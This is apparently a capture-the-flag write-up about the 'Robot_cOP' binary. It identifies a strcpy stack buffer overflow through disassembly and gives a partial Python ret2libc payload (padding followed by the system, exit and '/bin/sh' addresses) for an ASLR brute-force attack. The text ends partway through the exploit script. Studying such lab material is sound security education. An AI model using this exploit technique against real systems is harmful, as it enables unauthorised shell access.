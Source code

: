 
$ ./Robot_cOP 
Only Inspector Gadget, can use Robot cOP

$ ./Robot_cOP toto


$ nm Robot_cOP
...
         U system@@GLIBC_2.0
...</code></pre>
So the binary seems to be basic. It is a 32 bits elf dinamycally compiled and we can see thanks to "nm" the system LibC function so maybee the program use it somewhere. Let's disassemble it!

After checking the "main" function, the most important things is the call to "my_bad" function. You can see below the disassembled code:<pre><code class="x86asm">gdb-peda$ disas my_bad 
Dump of assembler code for function my_bad:
   0x08048483 &lt;+0&gt;:	push   ebp
   0x08048484 &lt;+1&gt;:	mov    ebp,esp
   0x08048486 &lt;+3&gt;:	sub    esp,0x808
   0x0804848c &lt;+9&gt;:	sub    esp,0x8
   0x0804848f &lt;+12&gt;:	push   DWORD PTR [ebp+0x8]
   0x08048492 &lt;+15&gt;:	lea    eax,[ebp-0x808]
   0x08048498 &lt;+21&gt;:	push   eax
   0x08048499 &lt;+22&gt;:	call   0x8048310 &lt;strcpy@plt&gt;
   0x0804849e &lt;+27&gt;:	add    esp,0x10
   0x080484a1 &lt;+30&gt;:	leave  
   0x080484a2 &lt;+31&gt;:	ret    
End of assembler dump.
</code></pre>
The function is very easy. First it allocate 0x808 (2056) bytes on the stack, then push the first argument which is the first program argument, then load the address of the allocated buffer, push that buffer and then copy the first program argument into the buffer. So if we give to strcpy a buffer greater than 0x808 bytes we will overflow the return adress.

Instead of using the ROP technic to solve the challenge, I choose a very fast one which I described in a [previous post](https://quentinmeffre.fr/bruteforce-aslr/), the ASLR bruteforce! As I already explained it in details in my previous post, I will only show you the final exploit:<pre><code class="python">#!/usr/bin/env python
# coding: utf-8

import struct
import subprocess

base = 0xf754e000                  # base libc address's
system_offset = 0x0003e3e0         # system offset function
exit_offset = 0x000311b0           # exit offset function
binsh =  0x804825c                 # /bin/sh  addresse's contained in the binary

system_addr = base + system_offset # final system address's
exit_addr = base + exit_offset     # final exit address's

payload = "A" * 2060
payload += struct.pack("&lt;I",system_addr)
payload += struct.pack("&lt;I",exit_addr)
payload += struct.pack("&lt;I",binsh)
